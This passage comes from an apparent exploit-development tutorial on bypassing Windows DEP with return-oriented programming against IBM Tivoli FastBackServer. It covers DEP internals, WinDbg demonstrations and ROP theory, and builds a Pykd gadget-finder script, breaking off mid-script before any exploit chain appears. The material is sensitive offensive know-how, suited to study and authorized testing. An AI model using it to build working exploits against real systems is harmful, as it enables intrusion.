> A brutally detailed, beginner-friendly walkthrough of how Data Execution
> Prevention actually prevents shellcode execution at the hardware level, why
> Return-Oriented Programming is the modern answer, and how to build a full
> VirtualAlloc-based gadget chain - gadget by gadget, register by register -
> against a real 32-bit Windows service (Tivoli Storage Manager FastBackServer)
> until a Meterpreter reverse shell drops into your terminal.

---

## 1. Introduction: Why DEP Changed Everything

In every previous post in this series we treated the stack as a place where
instructions can live. We wrote shellcode into a buffer, arranged for `EIP` to
land on top of it, and watched the CPU dutifully execute each byte. We targeted
Structured Exception Handlers, we built egghunters to locate payloads in memory,
and all of these techniques shared one critical assumption: the stack is
executable. That assumption worked until Microsoft shipped **Data Execution
Prevention**.

Data Execution Prevention - also called **NX** (No-eXecute) on AMD processors
or **XD** (eXecute Disable) on Intel - is a hardware-enforced, operating-system-
managed feature that draws an absolute line between memory that holds *code* and
memory that holds *data*. Under DEP, every virtual page carries a single extra
bit in its Page Table Entry (PTE). When that bit is set, the CPU's memory
management unit will not fetch instructions from that page. The CPU does not
care what those bytes contain - they could be perfectly valid `NOP` instructions
- it simply refuses to execute them and raises `STATUS_ACCESS_VIOLATION`
(`0xC0000005`). The stack, the heap, and every region allocated with
`PAGE_READWRITE` get `NX = 1` by default. A `JMP ESP` gadget still works fine -
that instruction lives in a legitimate `.text` section code page - but the very
first byte of shellcode at `ESP` faults on the instruction fetch stage of the
pipeline. The CPU will not even decode the opcode.

This is not a software check that can be patched. The NX bit lives in the
hardware page table, and the CPU enforces it before the instruction ever enters
the decode stage. To defeat it, we cannot simply write better shellcode or find
a cleverer jump target. We need to change the rules of the game entirely. We
need to convince the operating system itself to remove the NX bit from the page
where our shellcode lives - or allocate a brand-new page that was never marked
NX in the first place. And we need to do all of this using only instructions
that already exist in executable code pages. That is the essence of Return-
Oriented Programming.

> **What you will learn.** By the end of this article you will understand how DEP
> works at the PTE level, why traditional shellcode execution fails, how to
> discover and chain ROP gadgets using both Pykd and rp++, how to construct a
> VirtualAlloc-based function skeleton on the stack, how to dynamically resolve
> API addresses through the Import Address Table while avoiding bad characters,
> and how to pivot the stack pointer to invoke VirtualAlloc and land in your
> shellcode - all demonstrated step by step against a real vulnerability in
> IBM Tivoli Storage Manager FastBackServer.
{: .prompt-info }

> Everything here is intended for **defensive research, education, and authorized
> testing only**. Run these techniques exclusively against software and systems
> you own or are explicitly permitted to test. Memory-corruption exploitation
> against systems you do not control is illegal in most jurisdictions.
{: .prompt-warning }

---

## 2. Understanding Data Execution Prevention (DEP)

### 2.1 What DEP Is and Why It Exists

Before DEP, memory was simple. The operating system allocated pages and marked
them readable, writable, or both. There was no concept of "executable" versus
"non-executable" at the hardware level on x86 processors - any byte the CPU
could read, it could also execute. Exploit developers took advantage of this by
placing machine code directly into stack buffers or heap allocations and
redirecting `EIP` to those locations. Every stack overflow tutorial from the
early 2000s relied on this behavior.

DEP changed the fundamental contract between the CPU and memory. By leveraging
the NX bit in the Page Table Entry, the processor can now distinguish between
pages that contain code (executable) and pages that contain data (non-executable).
When a process attempts to execute instructions from a page marked with the NX
bit, the hardware triggers a fault - specifically, a `STATUS_ACCESS_VIOLATION`
with an access type of "execute." The operating system's exception handler sees
this fault and terminates the process. There is no way to "catch" this exception
and continue execution of the shellcode because the fault occurs before the
instruction is decoded.

The practical impact is devastating for traditional exploitation. Even if an
attacker controls `EIP` and can redirect execution to a stack buffer containing
perfectly valid x86 shellcode, the CPU will refuse to execute it. The shellcode
is treated as inert data, not as instructions. This single hardware bit
invalidated years of exploitation techniques overnight.

### 2.2 DEP Modes in Windows

DEP has **four modes** that determine which processes receive NX protection:

1. **OptIn** - DEP is enabled only for Windows system processes and for
   applications that explicitly opt in via the `/NXCOMPAT` linker flag in their
   PE header. This is the default on Windows client editions. Third-party
   applications that were not compiled with NX compatibility run without DEP
   protection.
2. **OptOut** - DEP is enabled for **all** processes except those on an explicit
   exemption list. This is the default on Windows Server editions. An
   administrator can add specific applications to the exemption list through
   System Properties or Group Policy.
3. **AlwaysOn** - DEP is permanently enabled for every process. No exceptions,
   no runtime disabling, no exemption list. This is the most secure mode and is
   typically used on hardened servers.
4. **AlwaysOff** - DEP is permanently disabled for every process. This mode
   exists primarily for compatibility testing and should never be used in
   production.

Understanding these modes is critical for exploitation because they determine
whether we can use certain bypass techniques. In `OptIn` mode, if the target
application did not compile with `/NXCOMPAT`, DEP may not be active at all. In
`AlwaysOn` mode, we cannot use techniques that attempt to disable DEP at runtime
(like calling `NtSetInformationProcess`) because the system will refuse the
request. The mode also affects which internal routines the OS uses to check and
enforce NX support.

### 2.3 The Internals: LdrCheckNXCompatibility and NtSetInformationProcess

Under the hood, the routine that decides whether to enable NX for a freshly
loaded process is `LdrCheckNXCompatibility` inside `ntdll.dll`. This function
walks the compatibility database, inspects the module's PE header for the
`IMAGE_DLLCHARACTERISTICS_NX_COMPAT` flag, and checks system-wide policy. Based
on the results of these checks, it calls `NtSetInformationProcess` - also in
`ntdll.dll` - to enable or disable DEP for the running process. Historically,
exploit developers abused this exact mechanism: they would build a ROP chain
that called `NtSetInformationProcess` with the right arguments to disable DEP
for the process, then jump to their shellcode. Microsoft responded by
implementing **permanent DEP** - any executable compiled and linked with
`/NXCOMPAT` has the `Permanent` flag set in its process information, meaning
`NtSetInformationProcess` will refuse to disable DEP at runtime. This
effectively closed the "turn off DEP" bypass for modern applications.

The diagram below illustrates how DEP works at a conceptual level. A traditional
exploit places shellcode on the stack and jumps to it. With DEP enabled, the CPU
checks the NX bit in the PTE before fetching the instruction, finds that the
page is non-executable, and raises an access violation instead of executing the
shellcode.



*Figure 2.1 - How Data Execution Prevention blocks traditional shellcode
execution. The NX bit in the Page Table Entry prevents the CPU from fetching
instructions from stack memory, causing STATUS_ACCESS_VIOLATION instead of
shellcode execution.*

This diagram shows the two-path divergence that DEP creates. On the left, in a
pre-DEP world, the CPU happily executes whatever bytes it finds at the address
in `EIP`. On the right, with DEP enabled, the same attempt triggers a hardware
exception. The key insight is that this is not a software check - it is enforced
by the CPU's memory management unit during the instruction fetch stage, before
the instruction pipeline even begins decoding the bytes.

---

## 3. DEP in Action - Seeing It with WinDbg

### 3.1 Examining Memory Protections in Notepad

Let us see Data Execution Prevention in action by attaching WinDbg to a running
instance of Notepad. This gives us a clean, well-known process to examine memory
protections without any exploit complexity.

After attaching WinDbg to the Notepad process, we can see the initial break and
the debugger is ready for our commands. The output confirms that we have
successfully attached to the process and the debugger has paused execution at
the initial breakpoint.



*Figure 3.1 - WinDbg successfully attached to a running Notepad process. The
debugger has paused execution at the initial breakpoint, ready for us to examine
memory protections and register states.*

Now we examine the memory protections on the page where `EIP` currently points.
The `!vprot` command queries the virtual memory protection flags for the page
containing the specified address. Since `EIP` points to code that is actively
executing, we expect this page to have execute permissions.

```
!vprot eip
```

The output of this command reveals the protection flags for the code page. As
expected, the protection is set to `PAGE_EXECUTE_READ`, which means the page is
both readable and executable. This makes sense - the CPU is currently executing
instructions from this page, so it must have execute permission. The NX bit is
clear (set to 0) for this page.



*Figure 3.2 - The memory protection for the code page at EIP is
PAGE_EXECUTE_READ (0x20). This page can be read and executed, which is the
normal state for a .text section in a loaded module.*

Now let us examine the protection on the stack. The `ESP` register points into
the stack, so `!vprot esp` will tell us what permissions the stack page has. This
is the critical test - if DEP is working, the stack should not be executable.

```
!vprot esp
```

The output confirms that the stack has `PAGE_READWRITE` protection. This is the
key difference: the stack is readable and writable (so we can push and pop
values, store local variables, etc.) but it is **not executable**. The NX bit is
set to 1 for this page, meaning any attempt to execute instructions from this
memory will trigger an access violation.



*Figure 3.3 - The memory protection for the stack at ESP is PAGE_READWRITE
(0x04). The stack is readable and writable but NOT executable. This is DEP in
action - the NX bit prevents instruction execution from stack memory.*

The difference between these two outputs is the entire story of DEP. Code pages
get `PAGE_EXECUTE_READ` (NX = 0, execution allowed). Data pages - including the
stack - get `PAGE_READWRITE` (NX = 1, execution blocked). This hardware-level
distinction is what makes traditional shellcode injection fail.

### 3.2 Verifying DEP with Narly

To get a comprehensive view of which protections are active on every loaded
module, we use the Narly WinDbg extension. Narly shows us DEP status, SafeSEH,
ASLR, and other security features for each module in the process. We load it
with the `.load narly` command.

```
.load narly
```



*Figure 3.4 - Loading the Narly WinDbg extension. Narly provides a convenient
way to check all security mitigations (DEP, ASLR, SafeSEH, etc.) for every
module loaded in the process.*

With Narly loaded, we run the `!nmod` command to list all modules and their
associated security protections. This command outputs a table showing each
module's base address, size, and which protections are compiled in.

```
!nmod
```

The output shows that the Notepad executable and most system DLLs have DEP
enabled along with other protections like SafeSEH and ASLR. Each column
represents a different mitigation, and we can quickly identify which modules
have which protections active.



*Figure 3.5 - The Narly !nmod output showing security mitigations for all
loaded modules. DEP is enabled for the main executable and system DLLs, along
with ASLR and SafeSEH protections.*

### 3.3 Proving DEP Blocks Execution

Now let us prove that DEP actually blocks execution. We will manually write NOP
instructions (`0x90`) to the stack and then try to execute them. If DEP is
working correctly, the CPU should raise an access violation.

First, we write four NOP instructions to the stack at the current `ESP` address:

```
ed esp 90909090
```

This writes the DWORD `0x90909090` (four NOP instructions) to the top of the
stack. Each `0x90` byte is a valid x86 NOP instruction that does nothing except
advance `EIP` by one byte. Under normal circumstances, these would execute
harmlessly.



*Figure 3.6 - Writing four NOP instructions (0x90909090) to the stack at ESP.
These are valid x86 instructions, but DEP should prevent them from executing
because the stack page has the NX bit set.*

Next, we set `EIP` to point at these NOPs. This simulates what an exploit does
when it redirects execution to shellcode on the stack:

```
r eip = esp
```



*Figure 3.7 - Setting EIP to the value of ESP, making the instruction pointer
point at our NOP instructions on the stack. This is exactly what a JMP ESP
gadget does in a traditional stack overflow exploit.*

Now the moment of truth. We single-step one instruction with the `p` command. If
DEP were disabled, the CPU would execute the NOP and advance `EIP` by one byte.
With DEP enabled, the CPU should refuse to fetch the instruction and raise an
access violation.

```
p
```

The result is exactly what we expected: an access violation. The CPU attempted
to fetch an instruction from the stack page, found that the NX bit was set in
the PTE, and raised `STATUS_ACCESS_VIOLATION`. The NOP instruction was never
executed - the fault occurred during the instruction fetch stage, before the
CPU even decoded the opcode. This is definitive proof that DEP is working.



*Figure 3.8 - DEP in action: attempting to execute a NOP instruction on the
stack causes STATUS_ACCESS_VIOLATION (0xC0000005). The CPU refuses to fetch
instructions from a page with the NX bit set, proving that traditional
shellcode execution on the stack is impossible.*

The diagram below shows the conceptual difference between a traditional exploit
(where the CPU happily executes shellcode from the stack) and a DEP-protected
scenario (where the CPU blocks execution and raises an exception).



*Figure 3.9 - Traditional stack overflow execution vs. DEP-blocked execution.
On the left, the CPU executes shellcode placed on the stack. On the right, DEP
prevents execution and raises an access violation, requiring an entirely
different exploitation approach.*

This diagram makes it clear why a fundamentally new technique is needed. We
cannot simply find a different place to put shellcode - the heap, the stack,
and all data-only allocations share the same NX = 1 setting. We need to either
change the permissions on an existing page or allocate new memory with execute
permissions. And we need to do it using only gadgets from existing executable
code pages.

---

## 4. Target Setup - Tivoli Storage Manager and Windows Defender Exploit Guard

### 4.1 The Vulnerable Application

Our target for this exercise is IBM Tivoli Storage Manager, specifically the
FastBackServer process. This is a real-world 32-bit network service that listens
on TCP port 11460 and contains a stack buffer overflow vulnerability in its
packet processing code. The vulnerability is triggered by sending a specially
crafted `psAgentCommand` packet with a format string payload that overflows
the stack buffer.

Let us attach WinDbg to the FastBackServer process. After launching the service
and connecting the debugger, we see the initial break confirming that we have
control of the process.



*Figure 4.1 - WinDbg attached to the Tivoli Storage Manager FastBackServer
process. This is our target application for the DEP bypass exercise.*

### 4.2 Checking DEP Status on the Target

Before we start building our exploit, we need to check whether DEP is actually
enabled on the target application. We load Narly and run `!nmod` to check the
security mitigations.

```
!nmod
```

Interestingly, the output shows that DEP is **not** enabled for the
FastBackServer application. This is because the application was not compiled
with the `/NXCOMPAT` flag and the system is running in `OptIn` mode, so DEP is
only active for processes that explicitly opt in.



*Figure 4.2 - The Narly !nmod output shows that DEP is NOT enabled for
FastBackServer. Since the application was not compiled with /NXCOMPAT and the
system is in OptIn mode, DEP protection is not active by default.*

This means we need to manually enable DEP for the application so we can practice
bypassing it. In a real-world scenario, many modern applications and all Windows
system processes have DEP enabled by default, so this bypass technique is
essential knowledge.

### 4.3 Enabling DEP with Windows Defender Exploit Guard

To enable DEP on FastBackServer, we use Windows Defender Exploit Guard (WDEG),
which is the successor to the Enhanced Mitigation Experience Toolkit (EMET).
WDEG allows us to enable security mitigations - including DEP - on applications
that were not compiled with them. This is exactly what a system administrator
might do to harden legacy applications.

First, we open Windows Defender Security Center from the Start Menu or system
settings.


*Figure 4.3 - Opening Windows Defender Security Center, where we can configure
Exploit Guard settings to enable DEP on applications that don't have it
compiled in.*

Next, we navigate to the App & Browser Control section. This is where all the
exploit protection settings live, including DEP, ASLR, CFG, and other
mitigations that can be applied on a per-application basis.


*Figure 4.4 - The App & Browser Control section in Windows Defender Security
Center. From here we can access Exploit Protection settings.*

We click on the Exploit Protection Settings link to access the detailed
mitigation configuration interface.



*Figure 4.5 - Accessing the Exploit Protection Settings, where we can configure
system-wide and per-application security mitigations.*

We select the Program Settings tab, which allows us to add per-application
overrides. This tab shows all applications that have custom mitigation settings
and lets us add new ones.



*Figure 4.6 - The Program Settings tab in Exploit Protection. This tab allows
us to configure per-application security mitigations, overriding the
system-wide defaults.*

Now we add the FastBackServer executable path to the list. We browse to the
installation directory and select the FastBackServer.exe binary. This tells
WDEG that we want to apply custom mitigation settings to this specific
application.



*Figure 4.7 - Adding the FastBackServer executable to the Exploit Protection
program list. This allows us to enable specific mitigations like DEP for this
application.*

Finally, we enable the Data Execution Prevention checkbox for FastBackServer.
This tells WDEG to force DEP on this process regardless of its compilation
settings. The change requires a restart of the application to take effect.



*Figure 4.8 - Enabling Data Execution Prevention for FastBackServer through
Windows Defender Exploit Guard. The application must be restarted for this
change to take effect.*

> After enabling DEP through WDEG, you must restart the target application for
> the change to take effect. The DEP setting is applied when the process is
> created, not to already-running processes.
{: .prompt-warning }

### 4.4 Confirming DEP Is Now Active

After restarting FastBackServer and reattaching WinDbg, we verify that DEP is
now active by repeating our earlier test. We write NOPs to the stack, set `EIP`
to `ESP`, and attempt to execute:

```
ed esp 90909090
r eip = esp
p
```

The result confirms that DEP is now enforced: we get an access violation when
trying to execute instructions on the stack. FastBackServer now has DEP
protection active, which means our traditional shellcode-on-the-stack approach
will fail. We need a DEP bypass.



*Figure 4.9 - After enabling DEP through WDEG and restarting FastBackServer,
attempting to execute NOPs on the stack triggers an access violation. DEP is
now successfully enforced on our target application.*

This access violation is the starting point of our entire bypass journey. Every
technique we develop from this point forward exists to work around this single
hardware-enforced restriction.

---

## 5. Return-Oriented Programming - The Theory

### 5.1 From ret2libc to ROP

When DEP was first introduced, the initial bypass technique came from the Linux
world: **return-to-libc** (ret2libc). Instead of jumping to shellcode on the
stack, the attacker overwrote the return address with the address of a library
function like `system()` and arranged the stack so that the function's arguments
pointed to an attacker-controlled string like `/bin/sh`. No shellcode was
executed on the stack - the exploit reused existing code in shared libraries.

When DEP arrived on Windows, this same concept was adapted. Exploit developers
first abused the fact that DEP can be disabled on a per-process basis by calling
`NtSetInformationProcess` with the right parameters. The idea was simple:
instead of `JMP ESP` → shellcode, the EIP overwrite pointed to
`NtSetInformationProcess`, which disabled DEP, and then a second-stage jump
landed on the shellcode that was now on an executable stack. Microsoft responded
with **permanent DEP** - any executable compiled with `/NXCOMPAT` gets a flag
that prevents `NtSetInformationProcess` from disabling DEP at runtime.

This arms race led to the generalization of the ret2libc concept into
**Return-Oriented Programming** (ROP). Instead of returning to a single library
function, ROP chains together dozens or hundreds of small instruction sequences
- called **gadgets** - that each end with a `RET` instruction. Each gadget
performs a tiny operation: pop a value into a register, add two registers, write
a register to memory, etc. By carefully arranging the stack so that each `RET`
pops the address of the next gadget, the attacker builds a virtual program that
runs entirely within legitimate code pages. The CPU never executes a single byte
from a non-executable page.

The diagram below illustrates how ROP chains work at a high level. The exploit
overwrites the stack with a sequence of gadget addresses. Each `RET` instruction
pops the next address from the stack and jumps to it, creating a chain of tiny
operations that together accomplish a complex goal - in our case, calling
VirtualAlloc to allocate executable memory.



*Figure 5.1 - How a ROP chain works. The stack is filled with addresses of
gadgets (short instruction sequences ending in RET). Each RET pops the next
gadget address, creating a chain of operations that executes entirely within
legitimate code pages, bypassing DEP.*

This diagram is the conceptual foundation for everything that follows. Notice
that the shellcode itself is never executed from the stack - it is the ROP
chain's job to change memory permissions so that the shellcode can run. The
chain is not the payload; it is the key that unlocks the door for the payload.

### 5.2 Two Approaches to DEP Bypass

Depending on our goal, there are two fundamental approaches to ROP-based DEP
bypass:

1. **Build 100% ROP shellcode** - The entire payload (connect-back, spawn shell,
   download-and-execute, etc.) is implemented purely as a ROP chain. This is
   theoretically possible but extremely impractical. The chain would be
   thousands of gadgets long, incredibly fragile, and nearly impossible to
   debug. Nobody does this in practice.

2. **Build a small ROP chain that enables traditional shellcode** - The ROP
   chain's only job is to make a small region of memory executable, then redirect
   `EIP` to that region where traditional shellcode (generated by msfvenom or
   hand-written) is waiting. This is the practical approach, and it is what we
   will implement.

For the second approach, we have three Win32 APIs we can use:

- **VirtualAlloc** - Allocates a new region of memory (or re-commits an existing
  one) with specified permissions. We can call it with `PAGE_EXECUTE_READWRITE`
  (`0x40`) to get an RWX page. This takes 4 parameters.
- **VirtualProtect** - Changes the protection on an existing page. We can flip a
  `PAGE_READWRITE` page to `PAGE_EXECUTE_READWRITE`. This takes 5 parameters
  (the extra one being a pointer to receive the old protection value).
- **WriteProcessMemory** - Copies bytes from one location to another within the
  same process. We can copy shellcode to an existing RWX page. This takes 5
  parameters including a process handle.

We will use **VirtualAlloc** for our exploit because it requires only 4
arguments (versus 5 for the other two APIs), does not need an output pointer
for old protection values, and allows us to re-commit the page where our
shellcode already resides with RWX permissions. This is the most
straightforward approach available to us.

The diagram below compares all three API approaches side by side, showing their
prototypes, advantages, disadvantages, and when to use each one. Understanding
these trade-offs is important because gadget availability may force you to use
one API over another in different exploitation scenarios.



*Figure 5.2 - Comparison of the three primary Win32 APIs used for DEP bypass:
VirtualProtect, VirtualAlloc, and WriteProcessMemory. Each has different
parameter requirements and trade-offs. VirtualAlloc is our choice for this
exploit because it has the fewest parameters and no output pointer requirement.*

### 5.3 The Import Address Table (IAT)

We need the address of `VirtualAlloc` at runtime to call it, but the function
lives in `kernel32.dll` whose base address changes on every reboot due to ASLR.
Fortunately, we do not need to know the absolute address of `VirtualAlloc` in
`kernel32.dll`. Instead, we use the **Import Address Table** (IAT).

When a DLL is loaded and the PE loader resolves imports, it writes the actual
runtime address of each imported function into the IAT. The IAT itself lives
inside the importing module at a fixed offset from the module's base address.
If we find a loaded module whose base address does not change (i.e., a module
without ASLR), we can read the VirtualAlloc pointer from that module's IAT at
a predictable address. We do not need to hardcode VirtualAlloc's address - we
just need to dereference a fixed IAT entry, and the runtime pointer will be
there regardless of `kernel32.dll`'s ASLR-randomized base.

This is a critical distinction: the IAT entry address is static (within a
non-ASLR module), but the value stored at that address (the function pointer)
is dynamic. Our ROP chain will load the IAT entry address into a register,
dereference it to get the actual function address, and then write that address
into our VirtualAlloc skeleton on the stack.

---

## 6. Gadget Discovery - Building Your Arsenal

### 6.1 Pykd: Debugger Automation for Gadget Hunting

Pykd is a WinDbg extension that exposes a comprehensive Python API for debugger
automation, crash dump analysis, and - in our case - automated gadget discovery.
It can be loaded as a WinDbg extension and allows us to write Python scripts
that interact directly with the debugger's state: reading memory, disassembling
instructions, querying page protections, and more.

We start with a simple Hello World to confirm Pykd is working. This trivial
script uses the `dprintln` function to output a message to the WinDbg command
window:

```python
from pykd import *
dprintln("Hello World!")
```



*Figure 6.1 - A simple Hello World script using Pykd. This confirms that the
Python-WinDbg bridge is working correctly before we build more complex gadget
discovery tools.*

Before running the script, we need to attach WinDbg to the FastBackServer
process. After attaching, we see the debugger's initial break message confirming
we are connected to the right process.



*Figure 6.2 - WinDbg attached to FastBackServer, ready for Pykd script
execution. The debugger is at the initial breakpoint.*

Now we load the Pykd extension into WinDbg with the `.load pykd` command. This
registers the `!py` command that allows us to execute Python scripts.

```
.load pykd
```



*Figure 6.3 - Loading the Pykd extension into WinDbg. Once loaded, we can use
the !py command to execute Python scripts that interact with the debugger.*

With Pykd loaded, we run our Hello World script to verify everything works:

```
!py C:\scripts\hello.py
```

The output shows our "Hello World!" message in the WinDbg command window,
confirming that Pykd is properly installed, the Python bridge is functional,
and we can proceed to build our gadget discovery tool.



*Figure 6.4 - The Hello World script executed successfully through Pykd. The
output appears in the WinDbg command window, confirming the Python-debugger
bridge is working.*

### 6.2 Building the ROP Finder - Step by Step

Now we build our gadget discovery tool incrementally. The first step is getting
a reference to the target module. The Pykd `module()` function takes a module
name and returns an object with information about the module's base address,
end address, and other properties.

```python
from pykd import *

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)
```



*Figure 6.5 - The first iteration of our findrop.py script. It takes a module
name as a command-line argument and creates a Pykd module object reference.*

Next, we need to know the total number of memory pages in the module. Each
memory page in x86 architecture is `0x1000` bytes (4096 bytes). We calculate
the total number of pages by dividing the module's memory span (end address
minus begin address) by the page size. This tells us how many pages we need to
scan for gadgets.

```python
from pykd import *

PAGE_SIZE = 0x1000

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)

    if mod:
        pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
        print("Total Memory Pages: %d" % pn)
```



*Figure 6.6 - The second iteration adds page counting. We set PAGE_SIZE to
0x1000 (4096 bytes, the standard x86 page size) and calculate how many pages
the module spans.*

Let us run the script without arguments first to see our usage message:

```
!py C:\scripts\findrop.py
```



*Figure 6.7 - Running findrop.py without arguments shows the usage message,
confirming argument parsing works correctly.*

Now we run it against FastBackServer to see how many pages it has:

```
!py C:\scripts\findrop.py FastBackServer
```

The output tells us that FastBackServer spans 2060 memory pages. This is a
large module, but most of those pages will not be executable - they contain
data sections, import tables, resources, and other non-code content. Our next
step is to filter down to only the executable pages.



*Figure 6.8 - FastBackServer has 2060 total memory pages. Not all of these are
executable - we need to filter for only executable pages that could contain
usable ROP gadgets.*

### 6.3 Filtering Executable Pages

Not all memory pages are created equal. Only pages with execute permissions can
contain valid ROP gadgets - we need to be able to jump to these addresses
without triggering a DEP violation ourselves. We create a dictionary of
executable page protections and a function that checks each page:

```python
from pykd import *

PAGE_SIZE = 0x1000

MEM_ACCESS_EXE = {
    0x10 : "PAGE_EXECUTE",
    0x20 : "PAGE_EXECUTE_READ",
    0x40 : "PAGE_EXECUTE_READWRITE",
    0x80 : "PAGE_EXECUTE_WRITECOPY",
}

def isPageExec(address):
    try:
        protect = getVaProtect(address)
    except:
        protect = 0x1
    if protect in MEM_ACCESS_EXE.keys():
        return True
    else:
        return False

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)

    pages = []

    if mod:
        pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
        print("Total Memory Pages: %d" % pn)

        for i in range(0,pn):
            page = mod.begin() + i * PAGE_SIZE
            if isPageExec(page):
                pages.append(page)
        print("Executable Memory Pages: %d" % len(pages))
```

The `MEM_ACCESS_EXE` dictionary maps the four Windows memory protection
constants that include execute permission. The `isPageExec` function uses Pykd's
`getVaProtect()` API to query the protection of each page and checks if it
matches one of our executable constants. We wrap the call in a try/except
because some pages may not be accessible.



*Figure 6.9 - The third iteration adds executable page filtering. We check each
page's protection flags and only keep pages that have execute permissions
(PAGE_EXECUTE, PAGE_EXECUTE_READ, PAGE_EXECUTE_READWRITE, or
PAGE_EXECUTE_WRITECOPY).*

Running this against FastBackServer reveals a significant reduction:

```
!py C:\scripts\findrop.py FastBackServer
```

Out of 2060 total pages, only 637 are executable. This means 69% of the module's
pages are data-only and cannot contain usable gadgets. We have narrowed our
search space considerably.



*Figure 6.10 - Of the 2060 total memory pages in FastBackServer, only 637 are
executable. These 637 pages are the only ones where we can find valid ROP
gadgets.*

### 6.4 Finding Return Instructions

The defining characteristic of a ROP gadget is that it ends with a `RET`
instruction. The `RET` instruction pops the next DWORD from the stack into `EIP`,
which is what chains one gadget to the next. We need to find every `RET`
instruction in the executable pages so we can then look backward from each one
to discover useful gadgets.

There are two `RET` opcodes we look for: `0xC3` (near return, no operands) and
`0xC2` (near return with an immediate operand that specifies how many bytes to
pop from the stack in addition to the return address). Both serve the same
chaining purpose for our ROP chain.

```python
def findRetn(pages):
    retn = []
    for page in pages:
        ptr = page
        while ptr < (page + PAGE_SIZE):
            b = loadSignBytes(ptr,1)[0] & 0xff
            if b not in [0xC3, 0xC2]:
                ptr += 1
                continue
            else:
                retn.append(ptr)
                ptr += 1

    print("Found %d ret instructions" % len(retn))
    return retn
```

This function walks every byte in every executable page and checks if it
matches either `0xC3` or `0xC2`. The `loadSignBytes` function reads raw bytes
from the debuggee's memory. We mask with `0xff` to handle sign extension.



*Figure 6.11 - The findRetn function scans every byte in executable pages for
RET instructions (0xC3 for near return, 0xC2 for near return with immediate).
Each RET is a potential end-point for a ROP gadget.*

Running this shows we have found a very large number of return instructions:

```
!py C:\scripts\findrop.py FastBackServer
```



*Figure 6.12 - The scanner found a large number of RET instructions across the
637 executable pages. Each of these is a potential gadget terminator that we can
look backward from to discover useful instruction sequences.*

### 6.5 Extracting Gadgets

Now we implement the core gadget extraction logic. Starting from each `RET`
instruction, we look backward one byte at a time (up to `MAX_GADGET_SIZE`
bytes), disassemble the instructions we find, and check if they form a valid
gadget. A valid gadget is a sequence of instructions that ends with a `RET`
and does not contain any "bad" instructions - instructions that would crash
the process, require elevated privileges, or disrupt our control flow.

```python
def getGadgets(addr):
    ptr = addr - 1
    dasm = disasm(ptr)
    gadget_size = dasm.length()
    print("Gadget size is: %x" % gadget_size)
    insrt = dasm.instruction()
    print("Found Instruction: %s" % insrt)
```

This initial version just disassembles one instruction before the `RET` to
confirm the approach works. The `disasm()` function creates a disassembler
object at the specified address, and `instruction()` returns the textual
representation of the disassembled instruction.



*Figure 6.13 - The initial getGadgets function disassembles the instruction
immediately before a RET instruction. This is the foundation for extracting
complete gadgets.*

Running this test extracts our first valid gadget:

```
!py C:\scripts\findrop.py FastBackServer
```

The output shows a valid gadget: `pop ebp; ret`. This is a simple two-
instruction gadget that pops a value from the stack into `EBP` and then returns.
While not the most useful gadget on its own, it confirms our approach works.



*Figure 6.14 - Our first extracted gadget: pop ebp; ret. This confirms the
gadget discovery approach works. Now we need to scale it up to find all
available gadgets across the module.*

### 6.6 The Complete Pykd Gadget Discovery Tool

Now we build the full gadget discovery tool. The complete script includes the
BAD instruction blacklist - a list of instructions that would break our ROP
chain if they appeared in a gadget. These include privileged instructions
(`clts`, `hlt`, `lmsw`), I/O instructions (`in`, `out`), interrupt instructions
(`int`, `iret`), flow-control instructions that would disrupt our chain (`call`,
`jmp`, `leave`, conditional jumps), and undefined opcodes (`???`).

The `disasmGadget` function crawls backward from each `RET` address, one byte
at a time up to `MAX_GADGET_SIZE` bytes. At each position it disassembles
forward, verifying that every instruction in the resulting sequence is clean
(not in the BAD list) and that the sequence still ends with a `RET`. Valid
gadgets are written to an output file.

```python
"""
Pykd Gadget Discovery Tool
"""

from pykd import *
import sys, time

HEADER =  "#"*80 + "\r\n"
HEADER += "# findrop.py - pykd module for Gadget Discovery\r\n"
HEADER += "#"*80 + "\r\n\r\n"

MEM_ACCESS_EXE = {
0x10  : "PAGE_EXECUTE",
0x20  : "PAGE_EXECUTE_READ",
0x40  : "PAGE_EXECUTE_READWRITE",
0x80  : "PAGE_EXECUTE_WRITECOPY",
}

PAGE_SIZE = 0x1000
MAX_GADGET_SIZE = 8

BAD = ["clts", "hlt", "lmsw", "ltr", "lgdt", "lidt" ,"lldt", "mov cr",
    "mov dr", "mov tr", "in ", "ins", "invlpg", "invd", "out", "outs",
    "cli", "sti", "popf", "pushf", "int", "iret", "iretd", "swapgs",
    "wbinvd", "call", "jmp", "leave", "ja", "jb", "jc", "je", "jr",
    "jg", "jl", "jn", "jo", "jp", "js", "jz", "lock", "enter",
    "wait", "???"]

def log(msg):
    print("[+] " + msg)

def getModule(modname):
    return module(modname)

def isPageExec(address):
    try:
        protect = getVaProtect(address)
    except:
        protect = 0x1
    if protect in MEM_ACCESS_EXE.keys():
        return True
    else:
        return False

def findExecPages(mod):
    pages = []
    pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
    log("Total Memory Pages: %d" % pn)
    for i in range(0, pn):
        page = mod.begin() + i*PAGE_SIZE
        if isPageExec(page):
            pages.append(page)
    log("Executable Memory Pages: %d" % len(pages))
    return pages

def findRetn(pages):
    retn = []
    for page in pages:
        ptr = page
        while ptr < (page + PAGE_SIZE):
            b = loadSignBytes(ptr, 1)[0] & 0xff
            if b not in [0xc3, 0xc2]:
                ptr += 1
                continue
            else:
                retn.append(ptr)
                ptr += 1
    log("Found %d ret instructions" % len(retn))
    return retn

def formatInstr(instr, mod):
    address = int(instr[0:8], 0x10)
    offset = address - mod.begin()
    return "%s+0x%x\t%s" % (mod.name(), offset, instr[9:])

def disasmGadget(addr, mod, fp):
    count = 0
    for i in range(1, MAX_GADGET_SIZE):
        gadget = []
        ptr = addr - i
        dasm = disasm(ptr)
        gadget_size = dasm.length()
        while gadget_size <= MAX_GADGET_SIZE:
            instr = dasm.instruction()
            if any(bad in instr for bad in BAD):
                break
            gadget.append(instr)
            if instr.find("ret") != -1:
                break
            dasm.disasm()
            gadget_size += dasm.length()
        matching = [i for i in gadget if "ret" in i]
        if matching:
